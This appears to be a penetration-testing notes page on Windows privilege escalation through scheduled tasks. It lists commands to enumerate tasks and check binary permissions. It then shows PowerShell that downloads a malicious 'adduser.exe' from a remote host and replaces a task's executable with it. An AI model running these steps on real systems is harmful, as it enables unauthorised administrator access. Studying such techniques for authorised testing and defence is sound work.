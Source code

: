 # scheduled tasks

_<mark style="background-color:purple;">**view scheduled tasks**</mark>_\
Three pieces of information are vital to obtain from a scheduled task to identify possible privilege escalation vectors:

* <mark style="color:blue;">As which user account (principal) does this task get executed?</mark>
* <mark style="color:blue;">What triggers are specified for the task?</mark>
* <mark style="color:blue;">What actions are executed when one or more of these triggers are met?</mark>

```powershell
schtasks /query /fo LIST /v
```

* &#x20;`schtasks` - view scheduled tasks on Windows
* `/fo LIST` - specify the output format as list
* `/v` -  display all properties of a task
  * <mark style="background-color:blue;">check</mark> <mark style="background-color:blue;"></mark>_<mark style="background-color:blue;">Author</mark>_<mark style="background-color:blue;">,</mark> <mark style="background-color:blue;"></mark>_<mark style="background-color:blue;">TaskName</mark>_<mark style="background-color:blue;">,</mark> <mark style="background-color:blue;"></mark>_<mark style="background-color:blue;">Task To Run</mark>_<mark style="background-color:blue;">,</mark> <mark style="background-color:blue;"></mark>_<mark style="background-color:blue;">Run As User</mark>_<mark style="background-color:blue;">, and</mark> <mark style="background-color:blue;"></mark>_<mark style="background-color:blue;">Next Run Time</mark>_ <mark style="background-color:blue;"></mark><mark style="background-color:blue;">fields</mark>
  * e.g _Run As User_ is an admin user, _Last Run Time_ and _Next Run Time_ indicate that the task is executed every minute, runs in current users directory

filter results to ones that include the string moss

```powershell
schtasks /query /fo LIST /v | findstr /i "moss" 
```

_<mark style="background-color:purple;">**check permissions of task**</mark>_

{% code overflow="wrap" %}
```powershell
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```
{% endcode %}

_<mark style="background-color:purple;">**upload malicious executable**</mark>_

_use adduser.exe_

{% code overflow="wrap" %}
```powershell
iwr -Uri http://192.168.48.3/adduser.exe -Outfile BackendCacheCleanup.exe
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
move .\BackendCacheCleanup.exe .\Pictures\
```
{% endcode %}

* download on windows machine
* create backup of the file being replaced
* replace file
